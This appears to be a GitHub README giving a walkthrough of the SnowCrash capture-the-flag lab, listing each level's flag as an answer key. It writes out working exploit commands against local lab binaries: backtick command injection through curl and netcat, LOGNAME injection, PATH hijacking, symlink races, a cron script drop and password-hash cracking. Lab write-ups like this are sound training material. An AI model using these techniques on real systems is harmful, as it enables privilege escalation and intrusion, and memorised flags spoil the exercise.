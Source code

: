 # snow_crash


# Level 00
```sh
level00@SnowCrash:~$ find / -path /proc -prune -o -user flag00 -print 2> /dev/null
/usr/sbin/john
/rofs/usr/sbin/john

level00@SnowCrash:~$ cat /usr/sbin/john
cdiiddwpgswtgt
```
[The Cipher Identifier](https://www.dcode.fr/cipher-identifier) => ROT Cipher
Brute Force ROT Cipher => nottoohardhere

<details>
	<summary>Flag:</summary>
	x24ti5gi3x0ol2eh4esiuxias
</details>

# Level 01
```sh
find / -path /dev -prune -o -exec grep -Hn "flag01" {} \; 2>/dev/null
/etc/passwd:41:flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
```
Encoded in SHA512(?)
https://www.openwall.com/john/
```sh
wget https://www.openwall.com/john/k/john-1.9.0-jumbo-1.tar.xz
tar -xJf john-1.9.0-jumbo-1.tar.xz
./configure && make -s clean && make -sj4 
echo 42hDRfypTqqnw > /tmp/pass

./john /tmp/pass
Proceeding with wordlist:./password.lst, rules:Wordlist
abcdefg          (?)

```

<details>
	<summary>Flag:</summary>
	f2av5il02puano7naaf6adaaf
</details>

# Level 02

level02.pcap with Wireshark

Right click => Follow => TCP

Password: ft_wandr...NDRel.L0L   (. = backspace)

Final password: ft_waNDReL0L

<details>
	<summary>Flag:</summary>
	kooda2puivaav1idi4f57q8iq
</details>

# Level 03

exec in https://dogbolt.org

```c
int32_t main(int32_t argc, char** argv, char** envp)
{
    gid_t eax = getegid();
    uid_t eax_1 = geteuid();
    setresgid(eax, eax, eax);
    setresuid(eax_1, eax_1, eax_1);
    return system("/usr/bin/env echo Exploit me");
}
```

/usr/bin/env is absolut

```sh
cp /bin/getflag /tmp/echo
PATH=/tmp ./level03
```

<details>
	<summary>Flag:</summary>
	qi0maab88jeaj46qoumi7maus
</details>

# Level 04

level04.pl as CGI

Connect on appach at localhost:4747

```sh
$ curl "localhost:4747?x=\`getflag\`"
```

<details>
	<summary>Flag:</summary>
	ne2searoevaevoem4ov4ar8ap
</details>

# Level 05

On connection: You have new mail.

```sh
$ cat /var/spool/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

echo "echo test; exec /bin/getflag > /tmp/soluc" > /opt/openarenaserver/test.sh
echo /tmp/soluc
```

<details>
	<summary>Flag:</summary>
	viuaaale9huek52boumoomioc
</details>

# Level 06

```sh
$ ls
level06  level06.php

$ echo '[x {${exec(getflag)}}]' > /tmp/test && ./level06 /tmp/test
```

<details>
	<summary>Flag:</summary>
	wiok45aaoguiboiki2tuin6ub
</details>

# Level 07


```c
asprintf(&v1, "/bin/echo %s ");
```

```sh
$ LOGNAME="; getflag" ./level07 
```

<details>
	<summary>Flag:</summary>
	fiumuikeil55xe9cu4dood66h
</details>ls

# Level 08

```sh
$ ln -s /home/user/level08/token /tmp/testing
$ ./level08 /tmp/testing
$ su flag08
$	quif5eloekouj29ke0vouxean
```

<details>
	<summary>Flag:</summary>
	25749xKZ8L7DkSCwJkT9dyv6f
</details>

# Level 09

```sh
$ scp -P 4243 level09@localhost:/home/user/level09/token .
# exec script to rotate
$ echo "<res>" > /tmp/res
$ ./level09 /tmp/res
```

<details>
	<summary>Flag:</summary>
	s5cAJpM8ev6XHw998pRWG728z
</details>


# Level 10

```sh
$ while true; do ln -sf /home/user/level10/token /tmp/mykey; ln -sf /tmp/test /tmp/mykey; done &
$ for i in {1..1000}; do /home/user/level10/level10 /tmp/mykey 127.0.0.1; done
```
clef flag10: woupa2yuojeeaaed06riuj63c

<details>
	<summary>Flag:</summary>
	feulo4b72j7edeahuete3no7c
</details>

# Level 11

```sh
$ level11@SnowCrash:~$ netcat 127.0.0.1 5151
Password: `getflag > /tmp/key; echo test`
```

<details>
	<summary>Flag:</summary>
	fa6v5ateaw21peobuub8ipe6s
</details>

# Level 12

```c
#include <stdlib.h>

int main() {
    system("getflag > /tmp/flag");
    return 0;
}
```

```sh
$ curl 'localhost:4646?x=`/*/CODE`'
$ cat /tmp/flag
```

<details>
	<summary>Flag:</summary>
	g1qKMiRpXf53AWhDaU7FEkczr
</details>

# Level 13

gdb level13

breakpoint in main to
	0x0804859a <+14>:	3d 92 10 00 00	cmp    $0x1092,%eax
	set $eax=0x1092

<details>
	<summary>Flag:</summary>
	2A31L79asukciNyi8uppkEuSx 
</details>

